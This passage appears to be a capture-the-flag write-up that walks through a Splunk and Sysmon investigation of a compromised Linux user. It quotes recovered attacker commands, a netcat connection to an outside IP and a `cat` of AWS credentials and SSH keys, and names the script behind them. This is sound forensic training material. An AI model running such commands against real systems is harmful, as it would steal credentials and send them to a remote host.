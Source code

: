 > Uh oh. This documentation exercise just turned into an investigation. Starting
> with the process identified in the previous task, look for additional
> suspicious commands launched by the same parent process. One thing to know
> about these Sysmon events is that Network connection events don't indicate the
> parent process ID, but Process creation events do! Determine the number of
> files that were accessed by a related process and record it here.

1. Click on sample 2 `Sysmon for Linux - Process creation`.
2. Add `process_name="/usr/bin/nc.openbsd"`.One result.
3. Click on `ParentProcessId` or `parent_process_id` and see `6788`.
   1. Now we need to search for all processes with this parent.
4. Remove the previous query and add `ParentProcessId=6788`. Two results
5. Click on `CommandLine` in the left sidebar.
   1. `nc -q1 54.175.69.219 16842`: Not what we want.
   2. `cat ...` is the answer. Six files were accessed.

```
cat
   /home/eddie/.aws/credentials
   /home/eddie/.ssh/authorized_keys
   /home/eddie/.ssh/config
   /home/eddie/.ssh/eddie
   /home/eddie/.ssh/eddie.pub
   /home/eddie/.ssh/known_hosts
```

### Task 8
Answer: `preinstall.sh`.

> Use Splunk and Sysmon Process creation data to identify the name of the Bash
> script that accessed sensitive files and (likely) transmitted them to a remote
> IP address.

Adding `CommandLine=*.sh*` does not return anything good. Trying the files in
the previous task also only return the `cat` command that we've already seen.

1. Click on sample 2 `Sysmon for Linux - Process creation`.
2. Select user `eddie`.
3. Click on `process_name` and select `/usr/bin/bash`.
4. Click on `CommandLine` and see `/bin/bash preinstall.sh`

> Thank you for helping Santa complete his investigation! Santa says you're a
> whiz!

----------

# 10) Now Hiring!

> What is the secret access key for the
> [Jack Frost Tower job applications > server][frost-job]? Brave the perils of
> Jack's bathroom to get hints from Noxious O. D'or.

[frost-job]: https://apply.jackfrosttower.com/

## Noxious O. D'or - IMDS Exploration
Teleport `FrostFest > Jack's Restroom`.


[param-tampering]: https://owasp.org/www-community/attacks/Web_Parameter_Tampering
[gist-ipv6]: https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f
[ssh-backdoor]: https://attack.mitre.org/techniques/T1098/004/
[hash-extension]: https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks
[hash_extender-github]: https://github.com/iagox86/hash_extender
[splunk-search]: https://hhc21.bossworkshops.io/en-US/app/SA-hhc/search
[elfnp3-gh]: https://github.com/elfnp3
[dvws-orig]: https://github.com/snoopysecurity/dvws-node
[imds-aws-metadata]: https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
[rfc3514]: https://datatracker.ietf.org/doc/html/rfc3514
[wireshark-displayfilter]: https://wiki.wireshark.org/DisplayFilters